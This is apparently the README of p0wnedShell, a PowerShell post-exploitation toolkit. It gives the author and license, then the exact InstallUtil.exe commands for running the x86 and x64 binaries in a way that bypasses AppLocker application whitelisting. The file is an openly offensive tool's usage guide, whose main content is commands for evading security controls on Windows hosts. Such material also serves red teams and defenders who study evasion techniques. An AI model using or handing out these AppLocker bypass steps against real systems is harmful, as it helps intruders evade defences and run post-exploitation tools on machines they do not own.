 # p0wnedShell
PowerShell Runspace Post Exploitation Toolkit 

## Author: Cn33liz

License: BSD 3-Clause

To run as x86 binary and bypass Applocker:

cd \Windows\Microsoft.NET\Framework\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedShell\p0wnedShellx86.exe

To run as x64 binary and bypass Applocker:

cd \Windows\Microsoft.NET\Framework64\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedShell\p0wnedShellx64.exe
